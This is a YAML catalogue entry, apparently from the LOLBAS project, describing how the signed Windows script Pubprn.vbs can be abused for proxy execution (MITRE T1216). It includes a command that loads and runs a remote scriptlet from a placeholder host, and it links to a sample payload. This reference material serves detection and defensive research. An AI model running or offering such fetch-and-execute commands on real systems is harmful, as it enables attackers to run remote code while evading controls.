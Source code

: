 ```yaml
---
Name: Pubprn.vbs
Description:
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
    Description: Set the 2nd variable with a Script COM moniker to perform Windows Script Host (WSH) Injection
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
  - Path: C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Pubprn_calc.sct
Detection:
  - IOC:
Resources:
  - Link: https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
Acknowledgement:
  - Person: Matt Nelson
    Handle: "@enigma0x3"
---
```


